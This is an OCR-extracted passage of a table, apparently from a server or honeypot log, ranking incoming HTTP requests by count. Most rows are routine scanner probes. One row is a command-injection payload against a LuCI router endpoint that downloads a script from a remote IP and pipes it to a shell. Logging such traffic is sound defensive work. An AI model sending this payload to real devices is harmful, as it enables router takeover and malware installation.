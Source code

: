 |  13 |                    42 | GET /actuator/health HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
|  14 |                    42 | MGLNDD_xxx.xxx.xxx.xxx_80                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
|  15 |                    42 | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F66.63.187.69%2Ftp%7Csh%3B%60) HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
|  16 |                    39 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  17 |                    35 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  18 |                    35 | CONNECT google.com:443 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |